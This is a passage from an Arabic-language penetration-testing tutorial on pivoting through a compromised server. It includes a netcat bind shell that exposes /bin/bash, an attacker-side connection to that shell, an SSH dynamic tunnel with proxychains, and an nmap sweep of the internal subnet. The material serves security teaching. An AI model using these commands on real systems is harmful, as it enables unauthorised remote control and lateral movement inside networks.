 #### **الجانب العملي:**
- **أنواع الـ Pivoting:**
  1. **Network Pivoting:** بتعدل حركة الشبكة عشان تتحرك من خلال السيرفر.
  2. **Port Forwarding:** بتفتح منافذ عشان توصل لأجهزة تانية.

#### **اكتشاف الشبكة:**
- **في لينكس:**
  ```bash
  netstat -tuln
  ```
  - خرج مثال: `tcp 0 0 192.168.1.10:80` → منافذ مفتوحة.
  ```bash
  ping 192.168.1.11
  ```
  - لو رجع رد، يبقى الجهاز شغال.

- **في ويندوز:**
  ```cmd
  netstat -ano
  ```
  - خرج مثال: `TCP 192.168.1.10:80`.

#### **استخدام Netcat للـ Pivoting:**
- **في السيرفر المخترق (لينكس):**
  ```bash
  nc -lvp 4444 -e /bin/bash
  ```
  - يفتح Shell متصل بيك.

- **في جهازك:**
  ```bash
  nc 192.168.1.10 4444
  ```
  - تتحكم في السيرفر.

- **اكتشاف أجهزة داخلية:**
  ```bash
  arp -a
  ```

#### **استخدام Proxychains (لينكس):**
- **ضبط Proxychains:**
  - عدل `/etc/proxychains.conf`:
    ```
    socks4 127.0.0.1 9050
    ```
  - شغل SSH Tunnel من السيرفر:
    ```bash
    ssh -D 9050 user@192.168.1.10
    ```
  - اكتشف الشبكة:
    ```bash
    proxychains nmap -sT 192.168.1.0/24
    ```

